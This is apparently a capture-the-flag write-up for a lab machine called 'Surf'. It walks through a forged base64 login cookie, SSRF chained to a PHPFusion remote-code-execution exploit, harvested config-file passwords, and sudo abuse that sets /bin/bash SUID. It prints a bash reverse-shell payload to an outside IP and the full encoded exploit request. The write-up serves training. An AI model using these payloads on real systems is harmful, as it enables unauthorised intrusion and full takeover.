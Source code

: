 # Surf

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.171   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:06 +08
Nmap scan report for 192.168.175.171
Host is up (0.17s latency).
Not shown: 41614 filtered tcp ports (no-response), 23919 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Surfing Blog -> Login Bypass

Port 80 took so long to load I didn't bother with it. Instead, I started with a `gobuster` scan:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.171 -t 100    
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.171
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 16:19:50 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.175.171/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.175.171/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.175.171/js/]
/administration       (Status: 301) [Size: 327] [--> http://192.168.175.171/administration/]
```

There's an administration directory present, and when viewed it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (3301).png" alt=""><figcaption></figcaption></figure>

I tried default and weak credentials, but they don't work. When the traffic is viewed in Burp, we can see that there are some tokens being passed around:

<figure><img src="../../../.gitbook/assets/image (3977).png" alt=""><figcaption></figcaption></figure>

The `auth_status` cookie is just a `base64` encoded string of `{'success':'false'}`. Afterwards, the `auth_status` cookie is appended to every subsequent login attempt. We can easily replace this with `true` and be granted access to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (2658).png" alt=""><figcaption></figcaption></figure>

### SSRF -> RCE

Within the website, there isn't much functionality, but there is a 'Check Server Status' function:

<figure><img src="../../../.gitbook/assets/image (2868).png" alt=""><figcaption></figcaption></figure>

Here's the HTTP request sent:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=nvesm039uh8qqsd19aqv25jhg3
Upgrade-Insecure-Requests: 1



url=http%3A%2F%2F127.0.0.1%3A8080
```

This looks vulnerable to a SSRF, and we can confirm it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (2632).png" alt=""><figcaption></figcaption></figure>

Also, it tells us that the backend server is running PHPFusion. There are a few exploits available for PHPFusion:

```
$ searchsploit phpfusion    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
PHPFusion 9.03.50 - Persistent Cross-Site Scripting        | php/webapps/48497.txt
PHPFusion 9.03.50 - Remote Code Execution                  | php/webapps/49911.py
----------------------------------------------------------- ---------------------------------
```

We can download and view the RCE exploit to find that the exploit is triggered by sending a request to `/infusions/downloads/downloads.php?cat_id=${system(ls)}`.&#x20;

Using the exploit, we can create a payload generator as such:

```python
import base64
PAYLOAD = "bash -c  'bash  -i >& /dev/tcp/192.168.45.164/443 0>&1'  " # !!spaces are important in order to avoid ==!!
REQUEST_PAYLOAD = "/infusions/downloads/downloads.php?cat_id=$\{{system(base64_decode({})).exit\}}"

PAYLOAD_B64 = base64.b64encode(PAYLOAD.encode('ascii')).decode("ascii")
print(REQUEST_PAYLOAD.format(PAYLOAD_B64))
```

This would print `base64` encoded payload, which we can submit like so:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=rnaerbm2cbt3193qgev658ap3k
Upgrade-Insecure-Requests: 1



url=http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(YmFzaCAtYyAgJ2Jhc2ggIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTY0LzQ0MyAwPiYxJyAg)).exit\}
```

Then we can get a reverse shell and grab the user flag:

<figure><img src="../../../.gitbook/assets/image (3006).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### James Creds

As usual, we should be looking at credential files within the website. There are some in the `/var/www/html/config.php` file:

```php
<?php
// database settings
$db_host = 'localhost';
$db_port = '3306';
$db_user = 'phpfusion';
$db_pass = 'phpfusion';
$db_name = 'phpfusion';
$db_prefix = 'fusionc6Jb6_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusionc6Jb6_");
define("COOKIE_PREFIX", "fusion33hvd_");
define("SECRET_KEY", "2RH443cPDc588jUkNtQ29fjHwJIS89Ez");
define("SECRET_KEY_SALT", "F6UU9T38pjH48myWA3HqkkN431l26GkI");
```

There are other files in the `/var/www` file present as well:

```
www-data@Surf:/var/www$ ls   
html  server
```

We can find credentials inside the `server` file for the user `james`.&#x20;

```php
www-data@Surf:/var/www/server/administration/config$ cat config.php 
<?php

//Note: This file should be included first in every php page.
error_reporting(E_ALL);
ini_set('display_errors', 'On');
define('BASE_PATH', dirname(dirname(__FILE__)));
define('APP_FOLDER', 'simpleadmin');
define('CURRENT_PAGE', basename($_SERVER['REQUEST_URI']));

require_once BASE_PATH . '/lib/MysqliDb/MysqliDb.php';
require_once BASE_PATH . '/helpers/helpers.php';

/*
|--------------------------------------------------------------------------
| DATABASE CONFIGURATION
|--------------------------------------------------------------------------
 */

define('DB_HOST', "localhost");
define('DB_USER', "core");
define('DB_PASSWORD', "FlyToTheMoon213!");
define('DB_NAME', "corephpadmin");

/**
 * Get instance of DB object
 */
function getDbInstance() {
        return new MysqliDb(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
}
```

We can then `su` to `james`:

<figure><img src="../../../.gitbook/assets/image (477).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password for `james`, we can check our `sudo` privileges:

```
james@Surf:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for james: 
Matching Defaults entries for james on Surf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User james may run the following commands on Surf:
    (ALL) /usr/bin/php /var/backups/database-backup.php
```

This file is owned by `www-data` and we can write to it:

```
james@Surf:/home$ ls -la /var/backups/database-backup.php
-rwxr-xr-x 1 www-data www-data 2758 Nov  9  2021 /var/backups/database-backup.php
```

The exploit would be to write a small snippet making `/bin/bash` an SUID binary and then executing it as `james`.&#x20;

We can use `vi` to edit the file to include `system("chmod u+s /bin/bash");`, and then use `:wq!` to force the save. Afterwards, when we can run the file using `sudo` as `james`:

<figure><img src="../../../.gitbook/assets/image (2267).png" alt=""><figcaption></figcaption></figure>

Then we can easily become the `root` user:

<figure><img src="../../../.gitbook/assets/image (1320).png" alt=""><figcaption></figcaption></figure>
